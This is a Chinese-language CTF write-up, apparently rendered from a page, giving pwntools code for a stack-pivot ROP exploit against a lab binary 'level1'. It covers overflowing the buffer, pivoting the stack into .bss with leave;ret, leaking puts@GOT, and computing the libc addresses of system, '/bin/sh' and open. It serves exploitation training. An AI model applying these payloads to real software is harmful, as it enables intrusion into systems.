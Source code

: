 ```python
elf = ELF("----------------/level1")
libc = ELF("-----------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))
read_plt = elf.plt['read']
print(hex(read_plt))
buf = elf.bss() + 0x500
print(hex(buf))

payload = b'A'* 0x80 + p64(buf+0x80) + p64(0x04011EF)
p.sendline(payload)
```

这次写到我们buf里的读取，也就是第二次读取，我们要让它输出一下got表里的地址，来像ret2libc一样计算libc里的地址

这次read后的leave时，rbp位置放了数据buf地址，ret是再次的leave, ret

leave后 rbp = [rbp] = buf ; rsp = 不重要

再次leave后 rbp=[buf] ; rsp = buf+8 

也就是其实是通过两次leave把 rsp送到buf+8上，这样就能用缓冲区继续了

```python
payload = ((b'AAAAAAA\x00' + p64(0x04011C5) + p64(write_got) + p64(write_plt) +
            p64(0x04011C8) + p64(buf+0x300+0x80) + p64(0x04011EF)).ljust(0x80,b'\x00')
           + p64(buf) + p64(0x40120F))
p.sendline(payload)
```

buf+8位置就是现在的栈顶，也就是0x04011C5是pop rdi的位置就可以输出write_got了

这个时候可以打印输出获取一下了

输出地址后，这次的rop我们还需要再次让他来一次read，这次把栈送到一个新地址上buf+0x300

通过pop rbp指定下一轮的rbp是buf+0x300+0x80 ，然后调用read

先输出吧

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

data = p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
print("[!!!]data= ", data, ":", format(u64(data), 'x'))

line = p.recvline()  # 接收'\n'
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

用got记录的地址计算

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['puts']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
open_addr = libc_base + libc.symbols['open']
print(format(open_addr, 'x'))
```
